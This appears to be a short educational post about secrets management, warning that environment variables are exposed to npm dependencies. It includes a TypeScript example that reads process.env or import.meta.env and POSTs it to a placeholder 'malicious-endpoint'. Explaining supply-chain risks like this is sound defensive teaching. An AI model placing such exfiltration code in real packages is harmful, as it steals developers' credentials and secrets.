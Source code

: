 Your runtime environment variables are not safe.

Just this code in an npm package would leak them to a malicious endpoint.

So, where should you store your secrets?

```ts twoslash
// @noErrors
// 1. Grab the data to send, either from process.env
// or import.meta.env
const dataToSend = process?.env || import.meta?.env;
if (dataToSend) {
  // 2. Send the data to a malicious endpoint
  fetch("malicious-endpoint", {
    method: "POST",
    body: JSON.stringify(dataToSend),
  });
}
```
